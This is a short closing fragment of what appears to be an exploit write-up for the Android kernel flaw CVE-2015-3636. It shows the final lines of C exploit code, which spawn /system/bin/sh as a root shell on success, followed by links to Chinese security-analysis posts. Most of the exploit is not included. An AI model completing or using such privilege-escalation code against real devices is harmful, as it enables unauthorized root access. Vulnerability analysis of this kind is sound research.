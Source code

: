 ```
	      system("/system/bin/sh");
	  }
	  else
	  {
	    printf("[*] Oops, you'd better have a cup of tea and try again:(\n");
	  }
  


	return 0;
}


```

参考
--

https://bbs.pediy.com/thread-230298.htm

http://pwn4.fun/2017/08/03/CVE-2015-3636%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://blog.csdn.net/koozxcv/article/details/50976884